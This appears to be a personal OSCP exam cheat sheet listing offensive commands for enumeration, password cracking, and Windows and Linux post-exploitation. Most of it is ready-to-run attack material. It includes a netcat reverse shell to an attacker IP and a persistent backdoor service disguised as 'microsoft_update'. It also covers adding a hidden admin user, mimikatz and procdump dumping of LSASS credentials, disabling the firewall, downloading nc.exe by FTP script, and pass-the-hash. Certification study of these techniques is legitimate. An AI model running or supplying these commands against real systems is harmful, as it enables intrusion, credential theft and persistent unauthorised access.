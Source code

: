 ```yaml
---
title:  "OSCP Cheat Sheet"
header: "OSCP Cheat Sheet"
categories: 
  - Cheatsheet
  - OSCP
tags:
  - OSCP
---
```


DIDNT SEND THIS TO WORK EMAIL
http://infosectalk.com/my-oscp-notes/


For buffer overflow article
https://netsec.ws/?p=180


http://hackingandsecurity.blogspot.com/2016/04/oscp-related-notes.html?m=1
https://theslickgeek.com/oscp/


Information Gathering / Enumeration

Scanning
General pass - nmap <IP> --top-ports 10 --open
Intense scan - nmap -p 1-65535 -T4 -A -v <IP>

Web
nitko -h <IP>
dirb http://<IP> /usr/share/wordlists/dirb/<insert related list>
(/usr/share/secLists/Discovery has great word lists)
finmap -u <IP>
./dotdotpwn.pl -m <MODULE> -h <HOST> [OPTIONS]
wpscan –url http://<IP>/ –enumerate p
https://evilzone.org/tutorials/remote-file-inclusion%28rfi%29/
http://www.hackersonlineclub.com/lfi-rfi
https://0xzoidberg.wordpress.com/category/security/lfi-rfi/

SMB/RPC
enum4linux -a <IP>
nmap --script=smb* -p <PORT(S)> <IP>
rpcclient <IP> -U "" -N
showmount -e <IP>/<PORT>
mount -t cifs //<IP>/<SHARE> <LOCAL DIRECTORY> -o username="guest",password=""
net view \\<IP>
nbtscan -r <IP>
smbclient -L \\<IP> -U "" -N
rlogin <IP>
nmblookup -A target


SQL
nmap -sV -Pn -vv –script=mysql* <IP> -p <PORT>
sqlmap -u <IP> –crawl=1
sqlmap -u http://<IP>/page.php?commen=761 –DBMS=mysql –os-shell
http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
http://resources.infosecinstitute.com/backdoor-sql-injection/


SMTP
nmap –script=smtp* -p <PORT> <IP>

SNMP
snmpwalk -c public -v1 <IP>
snmpenum -t <IP>
Onesixtyone – c <COMMUNITY FILE> -I <IP>

FTP
nmap –script=ftp* -p <PORT> <IP>
ftp://<IP>

DNS
./dnsrecon.py -d <DOMAIN>
./dnsrecon.py -d <DOMAIN> -t axfr
./dnsrecon.py -d <DOMAIN> -D <NAME LIST> -t brt
./dnsrecon.py -d <HOST> -t zonewalk
nmap –script=dns-zone-transfer -p 53 ns2.megacorpone.com
nmap <IP> -p- -sV --reason --dns-server 1.2.3.4



Password Cracking
(Discover type of hash that you have) hash-identifier
John the Ripper
/etc/shadow
 - Create a file with passwd
 - Create a file with shadow
 - Combine into one document
   -unshadow <passwd file location> <shadow file location> > <new combined file>
 - john --wordlist=<any word list> <combined file location>

Hydra
Hydra -L <USER FILE> -P <PASS FILE> -v <IP> ssh

Medusa
Medusa -h <IP> -U <USER FILE> -P <PASS FILE> -M http -m DIR:/admin -T 30

Hashcat
hashcat -m 400 -a 0 <HASH FILE> <WORD LIST>

Packet Sniffing
tcpdump -i tap0  host <IP> tcp port 80 and not arp and not icmp -vv
tcpdump -i eth0 -w capture -n -U -s 0 src not <ATTACKING IP> and dst not <ATTACKING IP>
tcpdump -vv -i eth0 src not <ATTACKING IP> and dst not <ATTACKING IP>

TTY Shells
See shells section

Metaplsoit Payloads
See msfvenom cheat sheet

Metasploit commands
sysinfo
getuid
search -f *pass*.txt
shell
getprivs
session -i 1 ---puts you back into your session

Turn a regular shell into a meterpreter shell
Attacker
use exploit/multi/handler
set payload windows/shell/reverse_tcp
set lhost <IP>
set lport <PORT>
run
Target
nc -vn <IP> <PORT> -e cmd.exe
Attacker
Ctrl+Z (to background session)
sessions -l (this will list your sessions to verify which one it is)
setg rhost <IP>
setg lhost <IP>
sessions -u 1 (the 1 is the session number)


Netcat
See netcat cheat sheet

Useful Windows Commands
net view
net user
net localgroup Users
net localgroup Administrators
net user hacker password1 /add
net localgroup administrators hacker /add
search dir/s *.doc
system(“start cmd.exe /k $cmd”)
sc create microsoft_update binpath=”cmd /K start c:\nc.exe -d <IP> <PORT> -e cmd.exe” start= auto error= ignore
/c C:\nc.exe -e c:\windows\system32\cmd.exe -vv <IP> <PORT>
mimikatz.exe “privilege::debug” “log” “sekurlsa::logonpasswords”
Procdump.exe -accepteula -ma lsass.exe lsass.dmp
mimikatz.exe “sekurlsa::minidump lsass.dmp” “log” “sekurlsa::logonpasswords”
C:\temp\procdump.exe -accepteula -ma lsass.exe lsass.dmp For 32 bits
C:\temp\procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp For 64 bits
reg add “hklm\system\currentcontrolset\control\terminal server” /f /v fDenyTSConnections /t REG_DWORD /d 0
netsh firewall set service remoteadmin enable
netsh firewall set service remotedesktop enable
netsh firewall set opmode disable
%SYSTEMDRIVE%\boot.ini
%WINDRIVE%\win.ini
type %WINDRIVE%\System32\drivers\etc\hosts

Windows looting (brief)
systeminfo 
type boot.ini 
hostname
ipconfig /all
netstat -ano 
net users 
net localgroup
route print 
arp -A 
netsh firewall show state
netsh firewall show config
schtasks /query /fo LIST /v
schtasks /query /fo LIST /v
net start
accesschk.exe -uwcqv "Authenticated Users" *
dir network-secret.txt /s
windump -i 2 -w capture -n -U -s 0 src not <IP> and dst not <IP>

Nix looting (brief)
locate proof.txt/network-secret.txt
find -name "proof.txt"/"network-secret.txt"
uname -a
cat /proc/version
cat /etc/passwd
cat /etc/shadow
cat /etc/group
ls -alR | grep ^d
ifconfig -a
netstat -ano
cat /etc/hosts
arp -a
tcpdump -i eth0 -w capture -n -U -s 0 src not <IP> and dst not <IP>
tcpdump -vv -i eth0 src not <IP> and dst not <IP>


Download an EXE from FTP server
echo open IP> C:\script.txt
echo user myftpuser>> C:\script.txt
echo pass myftppass>> C:\script.txt
echo get nc.exe>> C:\script.txt
echo bye>> C:\script.txt
ftp -s:script.txt

Pass-the-Hash
pth-winexe -U <HASH> //<IP> cmd

Useful Nix Commands
SUID root files
find / -user root -perm -4000 -print
SGID root files:
find / -group root -perm -2000 -print
SUID & SGID files ownership
find / -perm -4000 -o -perm -2000 -print
Files not owned by anyone
find / -nouser -print
Files not owned by any group
find / -nogroup -print
Symlinks and their pointers
find / -type l -ls

Quick Kali Configuration
SSH
Start
service ssh start
Stop
service ssh stop

HTTP Service
Start
service apache2 start
Verify its running
http://127.0.0.1
Directory
/var/www/
Stop
service apache2 stop

Update boot sequence
update-rc.d ssh enable
update-rc.d apache2 enable
rcconf (GUI)

Compiling Exploits
32-bit
gcc -m32 -o output32 hello.c
64-bit
gcc -o output hello.c

Windows Compiling
cd /root/.wine/drive_c/MinGW/bin
wine gcc -o exploit.exe /tmp/exploit.c -lwsock32
wine exploit.exe

SSH Pivoting
ssh -D <IP>:1080 -p 22 user@IP
Add socks4 <IP> 1080 in /etc/proxychains.conf
proxychains commands target

Shells
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
http://roo7break.co.uk/?p=215
http://www.r57shell.net/
